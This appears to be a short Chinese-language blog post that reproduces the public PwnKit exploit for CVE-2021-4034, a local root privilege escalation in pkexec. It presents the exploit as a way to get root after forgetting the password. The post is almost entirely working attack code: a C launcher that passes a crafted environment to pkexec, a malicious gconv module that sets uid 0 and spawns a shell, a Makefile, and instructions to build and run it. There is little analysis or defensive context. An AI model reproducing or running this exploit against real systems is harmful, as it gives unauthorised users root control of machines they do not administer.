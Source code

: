 # CVE-2021-4034 普通用户提权ROOT SHELL漏洞

<!--more-->
只有普通用户，忘记了root密码怎么办? 试试这个方式提权吧!

github: https://github.com/berdav/CVE-2021-4034


### 离线执行,代码如下

cve-2021-4034.c
```bash
#include <unistd.h>

int main(int argc, char **argv)
{
        char * const args[] = {
                NULL
        };
        char * const environ[] = {
                "pwnkit.so:.",
                "PATH=GCONV_PATH=.",
                "SHELL=/lol/i/do/not/exists",
                "CHARSET=PWNKIT",
                "GIO_USE_VFS=",
                NULL
        };
        return execve("/usr/bin/pkexec", args, environ);
}
```

pwnkit.c
```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv(void) {
}

void gconv_init(void *step)
{
        char * const args[] = { "/bin/sh", NULL };
        char * const environ[] = { "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/bin", NULL };
        setuid(0);
        setgid(0);
        execve(args[0], args, environ);
        exit(0);
}
```

Makefile
```bash
CFLAGS=-Wall
TRUE=$(shell which true)

.PHONY: all
all: pwnkit.so cve-2021-4034 gconv-modules gconvpath

.PHONY: clean
clean:
        rm -rf pwnkit.so cve-2021-4034 gconv-modules GCONV_PATH=./
        make -C dry-run clean

gconv-modules:
        echo "module UTF-8// PWNKIT// pwnkit 1" > $@

.PHONY: gconvpath
gconvpath:
        mkdir -p GCONV_PATH=.
        cp -f $(TRUE) GCONV_PATH=./pwnkit.so:.

pwnkit.so: pwnkit.c
        $(CC) $(CFLAGS) --shared -fPIC -o $@ $<

.PHONY: dry-run
dry-run:
        make -C dry-run
```

### 执行`make`编译,执行`./cve-2021-4034`提权


---

> 作者: [SoulChild](https://www.soulchild.cn)  
> URL: https://www.soulchild.cn/post/2844/  

